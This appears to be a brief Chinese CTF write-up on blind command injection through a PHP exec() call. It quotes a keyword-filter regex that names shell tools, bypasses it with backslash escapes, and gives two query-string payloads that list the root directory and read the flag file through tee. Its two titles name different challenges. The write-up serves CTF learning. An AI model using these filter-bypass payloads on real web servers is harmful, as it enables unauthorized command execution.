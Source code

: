 # 【SWPUCTF 2021 新生赛】finalrce


# [SWPUCTF 2022 新生赛]1z_unserialize

## 思路
* 主要问题：
  1. 过滤很多关键字，但是反斜杠未被过滤，使用转义符进行绕过
  
     ```
     preg_match(&#39;/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\&#34;|\&gt;|\&lt;|\%|\$/i&#39;,$url)
     ```
  
  1.  使用exec($url);执行命令，不能直接回显，需要管道符&#43;tee重定向写入文件进行回显查看

## EXP
`?url=ls /|tee 1.txt	# 得到目录`

`?url=ca\t /flllll\aaaaaaggggggg|tee 2.txt; 	# 得到flag`

## 总结
* 考察无回显RCE
* WAF绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2022-%E6%96%B0%E7%94%9F%E8%B5%9B1z_unserialize/  

